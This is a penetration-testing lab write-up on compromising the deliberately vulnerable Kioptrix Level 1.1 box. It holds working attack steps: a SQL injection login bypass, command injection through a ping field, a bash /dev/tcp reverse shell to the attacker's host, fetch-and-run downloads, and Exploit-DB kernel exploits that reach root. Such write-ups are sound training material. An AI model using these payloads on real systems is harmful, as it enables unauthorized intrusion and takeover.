

# OSCP Vulnhub Set 1 - Kioptrix: Level 1.1 (#2)

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=310958ee-e03d-4545-bcf0-f5de26a76405

Target IP: `10.101.85.12`

---

## Scanning and Enumeration

### Nmap

Identify the services running on the target IP.

```
nmap -A -sC -sV 10.101.85.12
```

- `-A`: Aggressive scan
- `-sC`: Default script scan
- `-sV`: Version detection

The scan identified SSH, HTTP, RPC, SSL, CUPS, and an unauthorized MySQL service.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/02]
└─$ nmap -A -sC -sV 10.101.85.12
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-14 05:22 -0400
Nmap scan report for 10.101.85.12
Host is up (0.0034s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            901/udp   status
|_  100024  1            904/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2026-05-14T13:23:18+00:00; +4h00m06s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.27
Network Distance: 2 hops

Host script results:
|_clock-skew: 4h00m05s

TRACEROUTE (using port 21/tcp)
HOP RTT     ADDRESS
1   5.62 ms 10.101.55.1
2   6.63 ms 10.101.85.12

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.39 seconds
```

Based on service enumeration, HTTP and command execution are the most promising attack vectors.

---

### HTTP Exploration

Open the target web interface in a browser.

```
http://10.101.85.12
```

The page displays a login screen.


The page source shows a simple form.

```
<html>
<body>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>

<!-- Start of HTML when logged in as Administrator -->
</body>
</html>
```

This login form suggests SQL injection may be possible.

---

## Exploitation

### SQL Injection

Test login bypass using a common SQL injection payload.

```
' or 1=1 --
```

The payload succeeded, allowing login bypass.



After bypassing authentication, a ping feature was available. I tested it by entering my IP address.

```
10.101.55.75
```

The application pinged the host successfully.

```
10.101.55.75

PING 10.101.55.75 (10.101.55.75) 56(84) bytes of data.
64 bytes from 10.101.55.75: icmp_seq=0 ttl=63 time=3.65 ms
64 bytes from 10.101.55.75: icmp_seq=1 ttl=63 time=2.39 ms
64 bytes from 10.101.55.75: icmp_seq=2 ttl=63 time=2.71 ms

--- 10.101.55.75 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 2.395/2.922/3.654/0.534 ms, pipe 2
```

The ping input appears to accept additional shell commands.

---

### Command Chaining

Append a shell command to the ping input using a semicolon.

```
10.101.55.75; id
```

- `10.101.55.75` triggers the ping command.
- `;` separates the additional command.
- `id` reveals the current user.

The command executed successfully, showing the web server user.

```
10.101.55.75; id

PING 10.101.55.75 (10.101.55.75) 56(84) bytes of data.
64 bytes from 10.101.55.75: icmp_seq=0 ttl=63 time=1.72 ms
64 bytes from 10.101.55.75: icmp_seq=1 ttl=63 time=1.97 ms
64 bytes from 10.101.55.75: icmp_seq=2 ttl=63 time=2.60 ms

--- 10.101.55.75 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 1.727/2.102/2.606/0.373 ms, pipe 2
uid=48(apache) gid=48(apache) groups=48(apache)
```

This confirms remote command execution as the `apache` user.

---

### Reverse Shell

Search for a Bash reverse shell payload.

```
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

Start a listener on Kali.

```
rlwrap nc -lvp 1234
```

Inject a reverse shell command through the vulnerable field.

```
10.101.55.75; bash -i >& /dev/tcp/10.101.55.75/1234 0>&1
```

The target opened a reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/02]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
10.101.85.12: inverse host lookup failed: Unknown host
connect to [10.101.55.75] from (UNKNOWN) [10.101.85.12] 32807
bash: no job control in this shell
bash-3.00$ 
```

The shell is now available for further enumeration.

---

## Privilege Escalation

### System Enumeration

Use an automated enumeration script to identify the operating system and kernel.

```
https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
```

Download the script on Kali.

```
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/refs/heads/master/lse.sh
```

Host the file locally and retrieve it from the target.

```
python3 -m http.server 80
```

On the target, move to `/tmp`, download the script, and execute it.

```
cd /tmp
wget http://10.101.55.75/lse.sh
chmod 777 lse.sh
./lse.sh
```

The enumeration output identified a CentOS 4.5 system running Linux kernel 2.6.9.

```
bash-3.00$ ./lse.sh
---
If you know the current user password, write it here to check sudo privileges: 
---
                                                                                                                    
 LSE Version: 4.14nw                                                                                                

        User: apache
     User ID: 48
    Password: none
        Home: /
        Path: /sbin:/usr/sbin:/bin:/usr/bin:/usr/X11R6/bin
       umask: 0022

    Hostname: kioptrix.level2
       Linux: 2.6.9-55.EL
Distribution: CentOS release 4.5 (Final)
Architecture: i686
```

This suggests a local kernel exploit may be effective.

---

### Exploit 1397

Search for a matching kernel exploit on Exploit-DB.

```
https://www.exploit-db.com/exploits/1397
```

Download and compile the exploit on the target.

```
searchsploit -m 1397
wget http://10.101.55.75/1397.c
gcc -o k-rad3 1397.c -static -O2
./k-rad3 -t 1 -p 2
```

The exploit did not succeed, indicating the kernel is not vulnerable to this exact payload.

```
bash-3.00$ wget http://10.101.55.75/1397.c
--06:49:38--  http://10.101.55.75/1397.c
           => `1397.c'
Connecting to 10.101.55.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17,060 (17K) [text/x-csrc]

    0K .......... ......                                     100%    4.22 MB/s

06:49:38 (4.22 MB/s) - `1397.c' saved [17060/17060]

bash-3.00$ gcc -o k-rad3 1397.c -static -O2
1397.c:730:28: warning: no newline at end of file
bash-3.00$ ./k-rad3 -t 1 -p 2
[  k-rad3 - <=linux 2.6.11 CPL 0 kernel exploit  ]
[ Discovered Jan 2005 by sd <sd@fucksheep.org> ]
[ Modified 2005/9 by alert7 <alert7@xfocus.org> ]
[+] try open /proc/cpuinfo .. ok!!
[+] find cpu flag pse in /proc/cpuinfo
[+] CONFIG_X86_PAE :none
[+] Cpu flag: pse ok
[+] Exploit Way : 0
[+] Use 2 pages (one page is 4K ),rewrite 0xc0000000--(0xc0002000 + n)
[+] thread_size 1 (0 :THREAD_SIZE is 4096;otherwise THREAD_SIZE is 8192 
epoll_wait: Invalid argument
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
[+] idtr.base 0xc03fd000 ,base 0xc0000000
[+] kwrite base 0xc0000000, buf 0xbff867b0,num 8196
[-] This kernel not vulnerability!!!
```

let's search for another exploit.

---

### Exploit 9545

A second exploit matched the target distribution more closely.

```
https://www.exploit-db.com/exploits/9545
```

Download and compile it on the target.

```
searchsploit -m 9545
wget http://10.101.55.75/9545.c
gcc -Wall -o linux-sendpage 9545.c
./linux-sendpage
```

This exploit succeeded and elevated privileges to root.

```
bash-3.00$ wget http://10.101.55.75/9545.c
--07:21:06--  http://10.101.55.75/9545.c
           => `9545.c'
Connecting to 10.101.55.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9,408 (9.2K) [text/x-csrc]

    0K .........                                             100%    1.67 MB/s

07:21:06 (1.67 MB/s) - `9545.c' saved [9408/9408]

bash-3.00$ gcc -Wall -o linux-sendpage 9545.c
9545.c:376:28: warning: no newline at end of file
bash-3.00$ ./linux-sendpage
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```
